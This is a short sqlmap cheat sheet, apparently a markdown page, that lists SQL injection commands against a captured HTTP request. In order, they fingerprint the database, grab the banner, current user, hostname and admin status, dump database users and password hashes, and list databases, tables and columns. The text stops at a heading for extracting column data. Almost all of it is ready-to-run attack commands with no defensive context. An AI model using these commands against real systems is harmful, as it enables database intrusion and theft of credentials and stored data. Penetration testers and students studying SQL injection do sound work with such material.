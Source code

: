 ## First we try to get which DB is running on the server

```Shell
time sqlmap -r /path/to/request/file.txt --fingerprint
```

### Another syntax

You copy the request with header and body from ZAP/burp and save it to a file then

```Shell
time sqlmap -r /path/to/request/file.txt --fingerprint
```

## Grabbing server banner

```Shell
time sqlmap -r /path/to/request/file.txt --banner
```

## Grabbing current user, current db, host name & is the current user an admin

```Shell
time sqlmap -r /path/to/request/file.txt --current-user --current-db --hostname --is-dba
```

## Grabbing DB users (and passwords is is-dba == true)

```Shell
time sqlmap -r /path/to/request/file.txt --users --passwords
```

## Grabbing DBs

```Shell
time sqlmap -r /path/to/request/file.txt --dbs
```

## Grabbing Tables

```Shell
time sqlmap -r /path/to/request/file.txt -D <db_name> --tables
```

## Grabbing Columns

```Shell
time sqlmap -r /path/to/request/file.txt -D <db_name> -T <table1, table2> --columns
```

## Grabbing data from specific columns
